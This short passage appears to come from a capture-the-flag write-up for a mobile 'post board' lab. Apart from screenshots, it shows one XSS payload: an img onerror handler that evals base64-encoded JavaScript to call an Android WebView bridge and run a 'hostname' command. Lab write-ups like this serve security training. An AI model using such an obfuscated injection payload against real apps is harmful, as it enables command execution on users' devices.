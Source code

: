 ![img5.png](/assets/images/ctf-mhl/post-board-lab/img5.png)

Nice, let’s try to send some commands.

![img6.png](/assets/images/ctf-mhl/post-board-lab/img6.png)

```bash
<img/src='1'/onerror=eval(atob("d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgiaG9zdG5hbWUiKQ=="))>
```

![img7.png](/assets/images/ctf-mhl/post-board-lab/img7.png)
